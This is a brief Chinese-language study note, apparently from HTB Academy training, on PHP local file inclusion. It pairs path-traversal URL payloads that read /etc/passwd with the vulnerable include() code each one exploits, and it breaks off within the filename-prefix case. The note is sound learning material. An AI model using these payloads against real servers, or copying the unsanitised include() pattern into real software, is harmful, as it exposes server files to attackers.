 # 文件包含

  

先写一部分的HTBA的内容，以后遇到了会进行补充

# 文件泄露

## 本地文件包含-LFI(无过滤)


>PAGE指url的参数，具体情况具体分析

**路径遍历**
直接包含：

```

?PAGE=/etc/passwd

对应代码

include($_GET['language']);

```

因为使用的是绝地路径，所以可以直接包含
然而，在许多情况下，Web 开发人员可能会在language范围。例如，language参数可以用于文件名，并且可以添加在目录之后，如下：

```

?PAGE=../../../../etc/passwd

对应代码

include("./languages/" . $_GET['language']);

```

**文件名前缀**

在某些情况下，我们的输入可能会附加在不同的字符串之后。例如，它可以与前缀一起使用来获取完整的文件名，在这种情况下，如果我们尝试使用以下命令遍历目录 ../../../etc/passwd，最终的字符串将是lang_../../../etc/passwd，这是无效的：

```

?PAGE=/../../../../etc/passwd

对应代码

include("lang_" . $_GET['language']);

```

  